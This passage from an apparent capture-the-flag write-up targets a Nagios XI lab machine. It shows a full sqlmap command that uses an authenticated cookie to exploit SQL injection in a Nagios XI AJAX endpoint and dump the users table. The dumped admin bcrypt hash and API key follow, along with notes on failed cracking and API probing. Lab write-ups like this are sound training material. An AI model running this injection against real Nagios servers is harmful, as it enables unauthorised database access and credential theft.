 
![image27](../resources/71e6009872a44892a82fc31549a995b4.png)

- It needs to be a cookie of an authenticated user

```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="action=acknowledge_banner_message&id=3" --cookie "nagiosxi=q0mkm8crf2a3rckum3enqgafje" --dbms=MySQL --level=1 --risk=1 -D nagiosxi -T xi_users --dump

```

![image28](../resources/b47c1bc297dc43dd9f7606da3379a701.png)

nagiosadmin : \$2a\$10\$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C

API_Key : IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL

- The hash is a bcrypt hash:

![image29](../resources/b957130d83f04e00a448693df95a8f56.png)

- Couldn't crack it with rockyou.txt

- Maybe the api_key is for the API endpoints

- Looking for API docs:
<https://support.nagios.com/forum/viewtopic.php?t=42923>

<https://support.nagios.com/kb/article/nagios-xi-how-to-apply-configuration-using-the-api-697.html>

- Changing the parameter to **?apikey=** seems to give a different error
